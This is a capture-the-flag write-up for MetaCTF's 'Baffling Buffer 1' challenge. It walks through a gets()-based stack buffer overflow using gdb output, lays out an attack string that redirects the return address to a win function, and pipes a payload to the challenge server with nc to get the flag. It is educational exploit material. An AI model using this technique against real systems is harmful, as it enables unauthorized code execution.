 # Baffling Buffer 1

The following is a walk-through of a problem taken from [MetaCTF](https://metactf.com/) CyberGames 2020. I have no idea how long their server will keep hosting this problem. No copyright infringement is intended.

## Problem

After pointing out the initial issue, the developers issued a new update on the login service and restarted it at `host1.metaproblems.com 5151`. Looking at the [binary](bb1) and [source code](bb1.c), you discovered that this code is still vulnerable.

## Solution

### Examining the Stack Layout

The C code is fairly simple. If the user enters `"Sup3rs3cr3tC0de"`, then `"Access granted!"` is printed. `"Invalid auth."` is supposed to be printed for any other inputs. This, however, is not the flag we are looking for. It appears from the code that if the function `win` were to somehow be executed, then the flag would be printed.

As the name suggests, the function `vuln` has a buffer overflow vulnerability due to it's use of the notoriously dangerous `gets`. We can get a better understanding of the stack layout by using GNU debugger.

```sh
chmod u+x bb1
gdb --quiet bb1
```

After executing `break vuln` and `run`, the program will run until it hits the breakpoint in `vuln`.

```txt
(gdb) break vuln
Breakpoint 1 at 0x401190
(gdb) run
Starting program: [redacted]

Breakpoint 1, 0x0000000000401190 in vuln ()
```

The output of `backtrace` shows where execution left off in each function. How do programs remember where each function left off? Every time `f` calls `g`, `f` pushes its "where I left off" address to the stack before jumping to `g`.

```txt
(gdb) backtrace
#0  0x0000000000401190 in vuln ()
#1  0x0000000000401238 in main ()
```

The output of `x/5i vuln` shows an assembler code dump of the first 5 instructions of `vuln` and also shows an arrow pointing at the next instruction to be executed. The next instruction `sub $0x30,%rsp` is for allocating 48 bytes on the stack for `char buf[48]`.

```txt
(gdb) x/5i vuln
   0x40118c <vuln>:     push   %rbp
   0x40118d <vuln+1>:   mov    %rsp,%rbp
=> 0x401190 <vuln+4>:   sub    $0x30,%rsp
   0x401194 <vuln+8>:   lea    0xe7b(%rip),%rdi        # 0x402016
   0x40119b <vuln+15>:  callq  0x401030 <puts@plt>
```

The output of `x/2a $rsp` shows two address-width (8 bytes each) values on the top of the stack. Since `push %rbp` was the most recent stack operation, the saved value of `%rpb` resides on the top of the stack. Next comes the address `0x401238` which is the same address we saw in `backtrace`.

```txt
(gdb) x/2a $rsp
0x7fffffffdba0: 0x7fffffffdbb0  0x401238 <main+74>
```

Using `print win` is one of **many** ways to obtain the address of `win`. The goal of our attack will be to overwrite the return address `0x401238` with `0x401172` so that control goes to `win` instead of back to `main`.

```txt
(gdb) print win
$1 = {<text variable, no debug info>} 0x401172 <win>
```

### Crafting the Attack String

We have located the region of memory that needs to be overwritten. A couple of considerations must be made for the attack string.

1. The string must start with the access code, otherwise `exit(-1)` will be executed and the attack will fail.
2. Memory addresses are 8 bytes, stored in little endian. This means the lowest bytes must be printed out first.

Here is a table that describes all of the contents of the attack string.

| #    | Bytes | Contents                              |
| :--- | :---- | :------------------------------------ |
| 1    | 16    | `"Sup3rs3cr3tC0de"`, ends with `NUL`  |
| 2    | 32    | Padding, any character sequence       |
| 3    | 8     | `0x00007fffffffde90` in little endian |
| 4    | 8     | `0x0000000000401172` in little endian |
| 5    | 1     | Line feed                             |

The string that needs to be typed in contains unprintable characters. Therefore, I created a small C program [`mal.c`](mal.c) that outputs the necessary string.

```sh
gcc mal.c -o mal
echo 'dummy flag' > flag.txt
./mal | ./bb1
```

This did not work locally on my machine. Running it with `gdb` told me that `flag.txt` did not exist. I suspect this is some kind of binary compatibility issue. However, this did work on the real problem server which is good enough.

```sh
./mal | nc host1.metaproblems.com 5151
```

```txt
Enter the access code:
Access granted!
MetaCTF{c_strings_are_the_best_strings}
```

The flag has been captured! I hope you enjoyed this demo.

:triangular_flag_on_post:
